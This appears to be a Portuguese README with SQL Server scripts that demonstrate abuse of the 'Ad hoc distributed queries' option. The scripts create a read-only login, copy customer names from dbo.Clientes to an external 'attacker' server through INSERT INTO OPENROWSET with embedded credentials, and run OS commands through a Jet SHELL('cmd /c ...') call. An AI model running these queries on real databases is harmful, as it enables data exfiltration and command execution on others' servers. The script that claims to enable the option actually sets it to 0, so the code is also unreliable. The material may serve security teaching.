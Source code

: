### Descrição do Script:

Este script é um exemplo de como realizar a criação de usuários e manipulação de dados de forma maliciosa em um ambiente de banco de dados SQL Server.

1. **Criação de Tabela e Dados Falsos**: 
   - Cria a tabela `dbo.Hacked_Clientes` e insere um campo `Nome` para armazenar dados que podem ser utilizados em um ataque.

2. **Configuração para Execução de Consultas Distribuídas**: 
   - O script habilita a configuração `Ad hoc distributed queries` no SQL Server (para testes, mas não recomendado em ambientes de produção), permitindo consultas distribuídas via OLE DB.

3. **Criação de Login e Usuário Malicioso**: 
   - Cria um login (`teste_openrowset`) e um usuário associado no banco de dados `dirceuresende`, além de conceder permissões de leitura ao banco (`db_datareader`).

4. **Execução de Consultas Maliciosas**: 
   - O script simula um ataque onde o usuário malicioso consulta dados da tabela `dbo.Clientes` e os insere na tabela `dbo.Hacked_Clientes`. Ele também executa comandos maliciosos via `OPENROWSET` para acessar dados de outras fontes externas e até executar comandos no sistema operacional.

5. **Desabilitação de Configuração de Consultas Distribuídas**: 
   - Após a execução do ataque, o script desabilita a configuração de `Ad hoc distributed queries`, seguindo as boas práticas de segurança para evitar consultas maliciosas futuras.

´´´SQL
----------------------------------------------------------------------------------------------------
--------------------------- cria os dados no "ambiente do atacante" --------------------------------
----------------------------------------------------------------------------------------------------

CREATE TABLE dbo.Hacked_Clientes (
	Nome VARCHAR(100)
)

SELECT * FROM dbo.Hacked_Clientes
´´´

´´´SQL
----------------------------------------------------------------------------------------------------
---------------------------- de volta ao ambiente que será atacado ---------------------------------
----------------------------------------------------------------------------------------------------

-- Habilitar a configuração "Ad hoc distributed queries" (para testes apenas - não recomendado)
sp_configure 'show advanced options', 1
GO

RECONFIGURE
GO

sp_configure 'Ad hoc distributed queries', 0
GO

RECONFIGURE
GO


-- Cria o login
CREATE LOGIN [teste_openrowset] WITH PASSWORD = 'aaa', CHECK_EXPIRATION=OFF, CHECK_POLICY=OFF, DEFAULT_DATABASE=master
GO

USE [dirceuresende]
GO

CREATE USER [teste_openrowset] FOR LOGIN [teste_openrowset]
GO

ALTER ROLE [db_datareader] ADD MEMBER [teste_openrowset]
GO
´´´

´´´SQL
----------------------------------------------------------------------------------------------------
---------------------------- logado com o usuário teste_openrowset ---------------------------------
----------------------------------------------------------------------------------------------------

USE [DB]
GO

-- Identifico os dados que quero "roubar"
SELECT TOP 100 Nome FROM dbo.Clientes

-- Roubo os dados e insiro no meu banco "malicioso"
INSERT INTO OPENROWSET('SQLOLEDB', 'server=sqlserver,1438;uid=dirceu;pwd=aaa', 'SELECT TOP 100 Nome FROM dbo.Hacked_Clientes')
SELECT TOP 100 Nome
FROM dbo.Clientes

-- Posso usar também para executar o que eu quiser
SELECT * 
FROM OPENROWSET('SQLOLEDB', 'Database=C:\Windows\system32\ias\ias.mdb', 'SELECT SHELL(""cmd /c echo open 192.168.0.1 > teste.dat"")')
´´´

´´´SQL
----------------------------------------------------------------------------------------------------
---------------------------- logado com um usuário sysadmin ---------------------------------
----------------------------------------------------------------------------------------------------

-- Desabilitar a configuração "Ad hoc distributed queries" (boa prática de segurança)
sp_configure 'show advanced options', 1
GO

RECONFIGURE
GO

sp_configure 'Ad hoc distributed queries', 0
GO

RECONFIGURE
GO
´´´